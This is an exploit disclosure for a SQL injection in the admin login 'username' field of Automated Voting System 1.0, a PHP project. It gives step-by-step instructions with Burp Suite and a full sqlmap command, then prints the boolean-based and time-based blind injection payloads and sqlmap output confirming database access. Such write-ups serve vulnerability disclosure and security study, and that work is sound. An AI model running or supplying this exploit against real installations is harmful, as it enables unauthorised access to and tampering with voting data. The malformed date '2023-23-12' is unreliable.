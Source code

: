 # Automated_Voting_System-SQL_Injection-1
+ **Exploit Title:** Automated_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'username' in "/automated%20voting/admin/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/automated%20voting/admin/"
+ Fill the username and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

-1676' OR 6176=6176-- hmdo
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

adminn' AND (SELECT 7935 FROM (SELECT(SLEEP(5)))MYPj)-- oinA
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--
---
[19:21:50] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/admin/candidate.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:21:50] [INFO] confirming MySQL
[19:21:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:21:52] [INFO] fetching current database
[19:21:52] [INFO] resumed: voting
current database: 'voting'
```

+ current database: voting
![01](https://github.com/h4md153v63n/CVEs/assets/5091265/654f8856-e854-4018-8208-8ca07971bb50)

